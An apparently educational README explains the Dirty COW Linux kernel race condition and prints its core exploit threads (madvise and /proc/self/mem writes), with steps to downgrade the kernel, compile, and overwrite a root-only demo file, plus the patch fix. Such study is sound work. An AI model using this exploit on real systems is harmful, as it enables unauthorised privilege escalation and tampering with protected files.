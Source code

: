 
# Dirty Cow exploit

## Exploit Overview
"A race condition was found in the way Linux kernel's memory subsystem
handled breakage of the read only private mappings COW situation on
write access.

An unprivileged local user could use this flaw to gain
write access to otherwise read only memory mappings and thus increase
their privileges on the system." - [From Redhat CVE](https://bugzilla.redhat.com/show_bug.cgi?id=1384344#)

The exploit leverages two functions madvise(MADV_DONTNEED) and open("/proc/self/mem",O_RDWR), to create a race condition between the two. Simply stated, we map the file to be changed to a copy that we can write to. We aren't able to write this copied file to the original file because we don't have the necessary permissions, however we are able to circumvent this via the race condition.

The first function, madvise, looks like this:

```
void *madviseThread(void *arg){
    char *str;
    str=(char*)arg;
    int i,c=0;
    for(i=0;i<100000000;i++)
    {
        c+=madvise(map,100,MADV_DONTNEED);
    }
    printf("madvise %d\n\n",c);
  }
```
The madvice call is used mainly for optimization by allowing the user to give advice/directions to the kernel about how the given address range will be used. In this case we tell it that we don't need the first 100 bytes by passing 100, MADV_DONTNEED. The man page specifies that this means "do not expect access in the near future" and that the memory access will differ now in that any "subsequent accesses of pages in the range will succeed, but will result in either repopulating the memory contents from the up-to-date contents of the underlying mapped file". This is very important to the exploit as it tells us that everytime we try to access this file we will repopulate the contents, which is part of the race condition.

The second function, proc/self/mem uses 'proc' which acts a pseudo-file system that helps runs most file operations in linux (everything is a file is very powerful here). /proc/self/mem is a "file" that contains the current process' memory, which we use to write to our file.

```
void *procselfmemThread(void *arg){
    char *str;
    str=(char*)arg;
    int f=open("/proc/self/mem",O_RDWR);
    int i,c=0;
    for(i=0;i<100000000;i++) {
        lseek(f,(uintptr_t) map,SEEK_SET);
        c+=write(f,str,strlen(str));
    }
    printf("procselfmem %d\n\n", c);
}
```
The above code attempts to write the passed argument string in the memory of the process in the location of the mapped file. This tries to write to the copy of the file, creating a copy-on-write event. 

This should not work and the two methods working independent of each other would not cause such an exploit to occur, but when raced against each other, an edge case occurs in which the actual file is written to instead of the mapped file. Simply stated, the race condition occurs when the file map that has been dropped from memory using madvise has not been completely written to the mapped memory when the procselfmem thread attempts to write. This is because the page table entry that points to our mapped memory has not been written yet and when we write, the page table directs this write to the original file, rather than the mapped one. By doing this over and over again for a large amount of times we can reliably execute this exploit. This allows us, for this simple case, to write to a file with root only write permission.

## Vulnerable Kernels

This is a relatively recent zero day and as such works on any of the kernels before the ones listed below, as they are the ones where the patch was added:

[Patched Kernels](https://github.com/dirtycow/dirtycow.github.io/wiki/Patched-Kernel-Versions)

If your kernel is newer, use the following commands based on your operating system, where $image-number-here$ is a kernel number before the ones in the link above. We highly recomend you search for the complete image name in your prefered OS and replace it below, as only the image number will not be the entire name of the package.

####Ubuntu
```
sudo apt-get install linux-image-$image-number-here$
sudo apt-get install linux-headers-$image-number-here$
```
####Debian
```
aptitude install linux-image-$image-number-here$
aptitude install linux-headers-$image-number-here$
```
####Arch
```
pacman -U linux-$image-number-here$.pkg.tar.xz linux-headers-$image-number-here$.pkg.tar.xz
```

### Booting into downgraded kernel

After installing an old version of the kernel, you still need to boot into it. Usually, this means getting to the GRUB manager, selecting "Advanced options for..." and then selecting the old version of the kernel to boot into. For Ubuntu, this looks like:

1. Install old kernel verion.
2. Click "Restart".
3. Immediately hold the "Shift" key until you reach the GRUB manager.
4. Select "Advanced options for Ubuntu".
5. Scroll all the way down and select your kernel version. (For me, I select "Ubuntu, with Linux 3.13.0-62-generic").

## Compilation

After you downgrade your kernel, the compilation is as such

```
gcc -pthread dirtyc0w.c -o dirtyc0w
```
The -pthread option is included because of the multithread aspect of the exploit, the man page for gcc tells us that it "Adds support for multithreading with the pthreads library. This option sets flags for both the preprocessor and linker".

## Running

Running the exploit is pretty simple. First, compile the dirtyc0w.c file as shown above.
Second, run the setup.sh script **as root**.
```
sudo ./setup.sh
```
This creates a file called 'protected_file' that is writeable only by root but readable by all and contains the string 'protected contents. Finally, run the run.sh script.
```
./run.sh
```
This will print out details about the file and its contents, then run the exploit and print the same details again. The run.sh script pushes 'Overwritten!' into the protected file and does not modify any of its details, including the modification time and the user privilages.

## Fixes

The easiest way to fix this bug is to upgrade your kernel to one of the patched kernels linked in the compilation section. In essence, the patch adds a dirty bit to make sure that the file has been completely copied to the mapped memory before it allows for writing. For more information about the fix, check out the patch notes [here](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/commit/?id=19be0eaffa3ac7d8eb6784ad9bdbc7d67ed8e619).

## Additional Resources

For other variations on the race condition described above, check out the dirty cow [website](https://dirtycow.ninja/) and for a more detailed walkthrough of the code and the patch see this [video](https://www.youtube.com/watch?v=kEsshExn7aE).
